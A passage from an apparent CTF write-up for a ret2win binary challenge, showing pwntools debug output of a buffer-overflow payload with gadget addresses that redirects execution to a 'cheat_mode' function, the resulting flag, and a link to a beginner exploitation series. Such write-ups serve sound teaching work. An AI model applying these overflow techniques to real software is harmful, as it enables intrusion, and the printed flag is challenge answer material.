 ```bash
 '0x0028:         0x400736 cheat_mode')
[DEBUG] Received 0x6 bytes:
    b'1337\r\n'
[DEBUG] Received 0x17 bytes:
    b'Enter your cheatcode:\r\n'
[DEBUG] Sent 0x49 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 00  00 00 00 00  │eaaa│faaa│··@·│····│
    00000020  23 23 23 23  23 23 23 23  b1 09 40 00  00 00 00 00  │####│####│··@·│····│
    00000030  42 42 42 42  42 42 42 42  69 61 61 61  6a 61 61 61  │BBBB│BBBB│iaaa│jaaa│
    00000040  36 07 40 00  00 00 00 00  0a                        │6·@·│····│·│
    00000049
[*] Switching to interactive mode

[DEBUG] Received 0xf3 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 5e  40 5e 40 5e  │eaaa│faaa│··@^│@^@^│
    00000020  40 5e 40 5e  40 23 23 23  23 23 23 23  23 b1 09 40  │@^@^│@###│####│#··@│
    00000030  5e 40 5e 40  5e 40 5e 40  5e 40 42 42  42 42 42 42  │^@^@│^@^@│^@BB│BBBB│
    00000040  42 42 69 61  61 61 6a 61  61 61 36 5e  47 40 5e 40  │BBia│aaja│aa6^│G@^@│
    00000050  5e 40 5e 40  5e 40 5e 40  0d 0a 43 68  65 63 6b 69  │^@^@│^@^@│··Ch│ecki│
    00000060  6e 67 20 63  68 65 61 74  63 6f 64 65  3a 20 61 61  │ng c│heat│code│: aa│
    00000070  61 61 62 61  61 61 63 61  61 61 64 61  61 61 65 61  │aaba│aaca│aada│aaea│
    00000080  61 61 66 61  61 61 b3 09  40 21 0d 0a  43 48 45 41  │aafa│aa··│@!··│CHEA│
    00000090  54 20 4d 4f  44 45 20 41  43 54 49 56  41 54 45 44  │T MO│DE A│CTIV│ATED│
    000000a0  21 0d 0a 59  6f 75 20 6e  6f 77 20 68  61 76 65 20  │!··Y│ou n│ow h│ave │
    000000b0  61 63 63 65  73 73 20 74  6f 20 73 65  63 72 65 74  │acce│ss t│o se│cret│
    000000c0  20 64 65 76  65 6c 6f 70  65 72 20 74  6f 6f 6c 73  │ dev│elop│er t│ools│
    000000d0  2e 2e 2e 0d  0a 0d 0a 46  4c 41 47 3a  20 49 4e 54  │...·│···F│LAG:│ INT│
    000000e0  49 47 52 49  54 49 7b 66  61 6b 65 5f  66 6c 61 67  │IGRI│TI{f│ake_│flag│
    000000f0  7d 0d 0a                                            │}··│
    000000f3
```
{% endcode %}

Flag: `INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}`

If you want to learn more about binary exploitation, check out my [beginner series!](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)
